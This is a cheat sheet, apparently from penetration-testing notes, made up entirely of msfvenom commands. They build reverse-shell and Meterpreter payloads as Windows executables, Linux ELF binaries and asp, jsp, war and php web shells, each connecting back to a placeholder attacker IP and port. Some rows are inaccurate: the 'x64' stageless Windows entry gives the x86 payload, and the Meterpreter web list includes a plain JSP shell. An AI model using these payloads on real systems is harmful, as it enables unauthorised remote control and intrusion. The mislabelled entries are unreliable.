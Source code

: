 # Msfvenom

### Non-Meterpreter Binaries

Staged Payloads for Windows

<table data-header-hidden><thead><tr><th width="53"></th><th></th></tr></thead><tbody><tr><td>x86</td><td><code>msfvenom -p windows/shell/reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f exe > shell.exe</code></td></tr><tr><td>x64</td><td><code>msfvenom -p windows/x64/shell_reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f exe > shell.exe</code></td></tr></tbody></table>

Stageless Payloads for Windows

<table data-header-hidden><thead><tr><th width="53"></th><th></th></tr></thead><tbody><tr><td>x86</td><td><code>msfvenom -p windows/shell_reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f exe > shell.exe</code></td></tr><tr><td>x64</td><td><code>msfvenom -p windows/shell_reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f exe > shell.exe</code></td></tr></tbody></table>

Staged Payloads for Linux

<table data-header-hidden><thead><tr><th width="54"></th><th></th></tr></thead><tbody><tr><td>x86</td><td><code>msfvenom -p linux/x86/shell/reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f elf > shell.elf</code></td></tr><tr><td>x64</td><td><code>msfvenom -p linux/x64/shell/reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f elf > shell.elf</code></td></tr></tbody></table>

Stageless Payloads for Linux

<table data-header-hidden><thead><tr><th width="54"></th><th></th></tr></thead><tbody><tr><td>x86</td><td><code>msfvenom -p linux/x86/shell_reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f elf > shell.elf</code></td></tr><tr><td>x64</td><td><code>msfvenom -p linux/x64/shell_reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f elf > shell.elf</code></td></tr></tbody></table>

***

### Non-Meterpreter Web Payloads

<table data-header-hidden><thead><tr><th width="54"></th><th></th></tr></thead><tbody><tr><td>asp</td><td><code>msfvenom -p windows/shell/reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f asp > shell.asp</code></td></tr><tr><td>jsp</td><td><code>msfvenom -p java/jsp_shell_reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f raw > shell.jsp</code></td></tr><tr><td>war</td><td><code>msfvenom -p java/jsp_shell_reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f war > shell.war</code></td></tr><tr><td>php</td><td><code>msfvenom -p php/reverse_php LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f raw > shell.php</code></td></tr></tbody></table>

***

### Meterpreter Binaries

Staged Payloads for Windows

<table data-header-hidden><thead><tr><th width="55"></th><th></th></tr></thead><tbody><tr><td>x86</td><td><code>msfvenom -p windows/meterpreter/reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f exe > shell.exe</code></td></tr><tr><td>x64</td><td><code>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f exe > shell.exe</code></td></tr></tbody></table>

Stageless Payloads for Windows

<table data-header-hidden><thead><tr><th width="54"></th><th></th></tr></thead><tbody><tr><td>x86</td><td><code>msfvenom -p windows/meterpreter_reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f exe > shell.exe</code></td></tr><tr><td>x64</td><td><code>msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f exe > shell.exe</code></td></tr></tbody></table>

Staged Payloads for Linux

<table data-header-hidden><thead><tr><th width="53"></th><th></th></tr></thead><tbody><tr><td>x86</td><td><code>msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f elf > shell.elf</code></td></tr><tr><td>x64</td><td><code>msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f elf > shell.elf</code></td></tr></tbody></table>

Stageless Payloads for Linux

<table data-header-hidden><thead><tr><th width="53"></th><th></th></tr></thead><tbody><tr><td>x86</td><td><code>msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f elf > shell.elf</code></td></tr><tr><td>x64</td><td><code>msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f elf > shell.elf</code></td></tr></tbody></table>

***

### Meterpreter Web Payloads

<table data-header-hidden><thead><tr><th width="56"></th><th></th></tr></thead><tbody><tr><td>asp</td><td><code>msfvenom -p windows/meterpreter/reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f asp > shell.asp</code></td></tr><tr><td>jsp</td><td><code>msfvenom -p java/jsp_shell_reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f raw > shell.jsp</code></td></tr><tr><td>war</td><td><code>msfvenom -p java/jsp_shell_reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f war > shell.war</code></td></tr><tr><td>php</td><td><code>msfvenom -p php/meterpreter_reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f raw > shell.php</code></td></tr></tbody></table>
